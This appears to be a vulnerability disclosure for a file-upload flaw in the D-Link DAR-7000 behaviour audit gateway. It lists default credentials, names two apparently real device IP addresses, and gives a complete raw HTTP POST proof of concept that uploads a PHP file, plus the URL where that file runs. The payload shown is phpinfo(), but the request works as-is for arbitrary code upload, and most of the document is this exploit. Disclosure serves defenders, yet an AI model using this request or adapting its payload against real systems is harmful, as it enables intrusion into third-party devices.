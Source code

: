 The D-LINK DAR-7000 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/useratte/web.php

Ip：https://60.22.74.195:8443/

Default account password: test/ admin@123

poc:
```
POST /useratte/web.php? HTTP/1.1
Host: 59.60.19.174:8443
Cookie: PHPSESSID=eb22543a6a7b4ffd10816d515b505f7f
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 598
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="2.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

import
-----------------------------42328904123665875270630079328—

```

<img width="722" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/113e6d1e-2e94-46c2-9586-f53cd02722fc">


https://59.60.19.174:8443/upload/2.php

<img width="722" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/ccd9228c-b415-483c-93eb-f20b1bf83a73">

